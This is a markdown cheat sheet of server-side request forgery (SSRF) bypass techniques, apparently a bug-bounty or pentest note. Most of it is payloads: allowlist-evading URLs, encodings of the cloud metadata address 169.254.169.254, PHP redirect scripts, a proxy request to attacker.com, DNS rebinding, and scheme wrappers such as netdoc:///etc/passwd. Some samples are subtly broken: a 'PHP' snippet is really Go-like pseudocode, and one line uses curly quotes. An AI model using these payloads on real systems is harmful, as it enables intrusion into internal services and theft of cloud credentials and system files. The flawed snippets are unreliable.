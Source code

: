## Refernces -

- SSRF vulns & where to find them by **Detectify** - https://labs.detectify.com/2022/09/23/ssrf-vulns-and-where-to-find-them/
- SSRF attacks via PDF generators by **Nahamsec & Cody Brocious** - https://docs.google.com/presentation/u/0/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/edit
- A new era of SSRF by **Orange Tsai** - https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
## Tools -

- SSRFmap - https://github.com/swisskyrepo/SSRFmap

## Bypasses -

#### URL fragment 

Use the `#` character to indicate a URL fragment. For example:

```http
https://evil-host#expected-host
```

#### Embed credentials in a URL before the hostname, using the @ character. For example:

```http
https://expected-host:fakepassword@evil-host
```
#### Leverage DNS naming hierarchy

```http
https://expected-host.evil-host
```
#### Comply to regex used for whitelist by providing the req url as uri

Here expected host is present and thereby it satisfies the whitelist & also is treated as directory portion of url.

```http
http://localhost/expectedhost.com
```

#### Use Hostnames Instead of IPs

Sometimes, the developers just banned the use of 169.254.169.254 directly. In that case, we can simply use hostnames that resolve to the same IP address. 

> Nip.io allows simple wildcard DNS for any IP address

here are some examples. All of these resolve to 169.254.169.254.

169.254.169.254.nip.io
169-254-169-254.nip.io
a9fea9fe.nip.io (hexadecimal IP notation)
Something.google.com.169.254.169.254.nip.io

#### HTTP Redirects
Sometimes, bypassing SSRF protection is as easy as using an HTTP redirect. 

Let’s say we can make a request to customdomain.com, but not 169.254.169.254. 

We can host a simple script on customdomain.com to 302 redirect to 169.254.169.254. If the vulnerable endpoint follows redirects but doesn’t check them, we have SSRF! 

Here’s a simple PHP script to perform the redirect.

```php
<?php header(“Location: http://169.254.169.254/”) ?>
```

#### DNS Rebinding

Many applications attempt to thwart SSRF attempts with a code pattern that looks like this:

```php
func fetch_if_allowed(url string){
    if ip_is_blocked(resolve($url)){
        return false
    } else {
        fetch($url)
    }
}
```

This code is vulnerable to a form of TOCTOU (time-of-check, time-of-use) vulnerability called DNS rebinding. An attacker can set up a DNS server that responds with two different IP addresses on alternating requests, one is allowed through the ip_is_blocked() function, and the other is not.

> Taviso's rbndr - https://github.com/taviso/rbndr

In this case, we could set up a DNS rebinding service such as Taviso’s rbndr to resolve to 1.1.1.1 every second time, and 169.254.169.254 every other time. When the domain is resolved the first time, the application sees that it resolves to 1.1.1.1, and allows the code to flow into the else statement, where the domain is resolved again – this time to 169.254.169.254. 🎉

#### Non-Standard IP Notations
Sometimes, specific IP addresses are blocked, such as 169.254.169.254. In this case, we may be able to bypass it by simply using different IP notation. For example, all of these will be interpreted as 169.254.169.254. 

- 025177524776 (octal)
- 0xa9fea9fe (hexadecimal)
- 2852039166 (integer)
- ::ffff:a9fe:a9fe (IPv6)

> Use thsi website to convert IP address to all the 4 types of notation - https://www.abuseipdb.com/tools/ip-address-converter

#### Find an openredirect

If an open redirect is found, try to use that path to induce SSRF and access backend systems.

```http
POST /upload 
Host: test.example.com
url=http://pics.example.com/123?redirect=localhost
```

In the above request, we use the open redirect vulnerability on `pics.example.com`  domain to redirect to localhost

#### Redirect by hosting a server containing malicious php content

Make the server request a URL that we control & that **redirects to the blocklist address**.

Ask the target server to send arequest to our server

```http
http://public.example.com/proxy?url=http://attacker.com/ssrf
```

On our server host a file with the following content,

```php
<?php header("location: http://127.0.0.1"); ?>
```

#### SSRF Wrappers / URL Schema

The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled).

```http
gopher://
file://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
```

In case of **Java environments**, use these payloads

```http
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
```

#### Enclosed Alphanumeric -

```http
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
```
